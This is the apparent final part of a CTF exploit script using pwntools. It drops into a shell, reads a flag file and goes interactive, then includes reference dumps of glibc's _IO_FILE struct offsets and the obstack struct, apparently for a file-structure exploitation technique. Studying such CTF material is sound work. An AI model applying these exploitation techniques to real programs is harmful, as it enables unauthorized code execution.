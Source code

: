 ```py

    fflush()
    # system("/bin/sh")

    io.sendline(b"cat flag-f81d1f481db83712a1128dc9b72d5503.txt")
    io.interactive()

if __name__ == "__main__":
    main()

"""
type = struct _IO_FILE {
/*      0      |       4 */    int _flags;
/* XXX  4-byte hole      */
/*      8      |       8 */    char *_IO_read_ptr;
/*     16      |       8 */    char *_IO_read_end;
/*     24      |       8 */    char *_IO_read_base;
/*     32      |       8 */    char *_IO_write_base;
/*     40      |       8 */    char *_IO_write_ptr;
/*     48      |       8 */    char *_IO_write_end;
/*     56      |       8 */    char *_IO_buf_base;
/*     64      |       8 */    char *_IO_buf_end;
/*     72      |       8 */    char *_IO_save_base;
/*     80      |       8 */    char *_IO_backup_base;
/*     88      |       8 */    char *_IO_save_end;
/*     96      |       8 */    struct _IO_marker *_markers;
/*    104      |       8 */    struct _IO_FILE *_chain;
/*    112      |       4 */    int _fileno;
/*    116      |       4 */    int _flags2;
/*    120      |       8 */    __off_t _old_offset;
/*    128      |       2 */    unsigned short _cur_column;
/*    130      |       1 */    signed char _vtable_offset;
/*    131      |       1 */    char _shortbuf[1];
/* XXX  4-byte hole      */
/*    136      |       8 */    _IO_lock_t *_lock;
/*    144      |       8 */    __off64_t _offset;
/*    152      |       8 */    struct _IO_codecvt *_codecvt;
/*    160      |       8 */    struct _IO_wide_data *_wide_data;
/*    168      |       8 */    struct _IO_FILE *_freeres_list;
/*    176      |       8 */    void *_freeres_buf;
/*    184      |       8 */    size_t __pad5;
/*    192      |       4 */    int _mode;
/*    196      |      20 */    char _unused2[20];

                               /* total size (bytes):  216 */
                             }

struct obstack          /* control current object in current chunk */
{
  long chunk_size;              /* preferred size to allocate chunks in */
  struct _obstack_chunk *chunk; /* address of current struct obstack_chunk */
  char *object_base;            /* address of object we are building */
  char *next_free;              /* where to add next char to current object */
  char *chunk_limit;            /* address of char after current chunk */
  union
  {
    PTR_INT_TYPE tempint;
    void *tempptr;
  } temp;                       /* Temporary for some macros.  */
  int alignment_mask;           /* Mask of alignment for each object. */
  /* These prototypes vary based on 'use_extra_arg', and we use
     casts to the prototypeless function type in all assignments,
     but having prototypes here quiets -Wstrict-prototypes.  */
```